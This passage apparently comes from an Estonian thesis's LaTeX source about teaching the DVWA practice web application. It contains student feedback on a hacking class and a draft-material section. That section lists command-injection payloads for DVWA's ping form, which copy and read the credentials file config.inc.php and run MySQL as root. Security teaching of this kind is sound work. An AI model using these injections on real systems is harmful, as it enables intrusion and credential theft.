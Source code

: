  Comments from students (unchanged): 
*It was a bit fast, but as I have been dealing with DVWA and this kind of course before, it was okay for me. I was helping other participants. 
*quite hard to follow and was specific for one team. 
*Very important for the Security team, and good new perspectives and experiences for everyone else too. 
*Interesting course. Liked that Estonians helped people who weren’t very familiar with linux. Nothing new to me. 
*This was carried out as a practical class and was quite tough since I had little previous Linux experience. 
*It was a very long, tiring practice lecture. Somehow it would have been better to separate the long lecture into several parts. It would have been more productive. Otherwise tired lecturer and students couldn’t follow.  
*I took my first baby steps towards being professional hacker. In some cases, following teachers teaching was hard because of the fast pace. 
*Not that relevant for all projects, but still important thing to understand as a IT student. 
*Awesome, hacking is interesting. 
*Nice topic and useful to our project. It was like a first bite of our project. And Margus taught things so that everyone can learn.
*That was something different out of software engineering field 
*Very good lecture. Difficult to follow. 
*I really like to search for security holes and vulnerability threats in web pages and this tool is one of the best for testing, but I didn't manage to follow the teacher's step by step tutorial. I have got messed up in virtual machines, because I didn't have the experience for them, however I have managed to learn more about them after this topic, also Margus explained more about DVWA tool for our team, so I got the idea.


\chapter{Toormaterjal}
{\color{red} See ei ole osa tööst vaid asjad, mis jäävad tõenäoliselt välja}


Siin on asjad, kust tõstan mingid lõigud töösse

\begin{verbatim}
8.8.8.8; pwd

8.8.8.8; cp ../../config/config.inc.php /tmp/asi.txt

8.8.8.8; cat /tmp/asi.txt

Kuigi ping tulemuste all pole config faili sisu näha, 
tehes lehel parema kliki ja valides "View Page Source" näeme, et source faili sees on config.inc.php sisu olemas.


    DVWAs kasutades "Command execution" andmebaasi loomine:
    8.8.8.8; mysql --user=root --password='student' -e 'create database kala;'

Software eggs
http://www.itcollege.ee/?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000
    

\end{verbatim}


